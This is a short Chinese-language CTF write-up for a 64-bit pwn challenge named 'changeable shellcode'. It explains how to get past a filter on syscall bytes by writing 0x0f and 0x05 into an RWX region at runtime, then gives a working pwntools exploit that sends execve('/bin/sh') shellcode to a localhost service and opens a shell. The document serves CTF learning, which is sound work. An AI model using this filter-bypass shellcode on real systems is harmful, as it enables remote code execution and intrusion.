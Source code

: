 ```yaml
---
title: changeable shellcode
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`shellcode`, 保护全开  
ghidra分析为64位程序

## 解题思路

有40个字节的空间，并且没有syscall，需要实现打开shell

而存放的地方，更是~~十分甚至是九分的~~奇怪，这个值在rax寄存器中有  
gdb `vmmap`查看发现该区域可读写执行

总体思路就是在这片区域分别连续写入0x5和0xf来绕开检测，
然后跳转到写了syscall`|05|0f|`的地址，
并且除了syscall以外的指令要写到最简以免长度超限

## 踩过的坑

1. 32位的int 0x80好像不能用，就算设置rax=0xb，也无法正常打开shell
2. 不要用ascii转换器，22字节的shellcode可以转出76字节来

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 43877)

code = '''
mov rbx, 0x68732f6e69622f   ; '/bin/sh'
push rbx
mov rdi, rsp                ; rsp现在指向栈上sh字符串位置
xor esi, esi                ; 如果push rsp再用ni会直接运行到底，建议使用si
xor edx, edx
mov qword ptr[rax], 0xf     ; rax -> 0x114514000
nop                         ; preventing optimization
mov qword ptr[rax + 1], 0x5
push 0x3b
pop rax
jmp $ - 0x25                ; 64位的跳转偏移地址是这样的！跳转回0x114514000
'''
# 汇编后39字节，还可以压得更小的也可以开一个discussion

shc = asm(code, arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
